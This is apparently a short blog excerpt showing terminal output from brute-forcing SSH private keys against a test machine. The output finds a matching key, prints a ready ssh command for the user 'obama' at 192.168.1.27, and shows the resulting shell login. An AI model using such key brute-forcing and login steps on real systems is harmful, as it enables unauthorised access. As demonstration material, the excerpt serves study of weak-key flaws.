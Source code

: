 ```plain
Tested 440 keys | Remaining 32328 keys | Aprox. Speed 45/sec
Tested 663 keys | Remaining 32105 keys | Aprox. Speed 44/sec
(snip)
Tested 16000 keys | Remaining 16768 keys | Aprox. Speed 45/sec
Tested 16229 keys | Remaining 16539 keys | Aprox. Speed 45/sec
Tested 16451 keys | Remaining 16317 keys | Aprox. Speed 44/sec

Key Found in file: dcbe2a56e8cdea6d17495f6648329ee2-4679
Execute: ssh -lobama -p22 -i rsa/2048//dcbe2a56e8cdea6d17495f6648329ee2-4679 192.168.1.27

Tested 16654 keys | Remaining 16114 keys | Aprox. Speed 40/sec
```

Copier / coller  

```plain
$ ssh -lobama -p22 -i rsa/2048//dcbe2a56e8cdea6d17495f6648329ee2-4679 192.168.1.27
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

Last login: Thu Jun 19 10:10:29 2008
obama@ubuntuvm:~$ id
uid=1001(obama) gid=1001(obama) groups=1001(obama)
```

:x

*Published April 18 2014 at 13:51*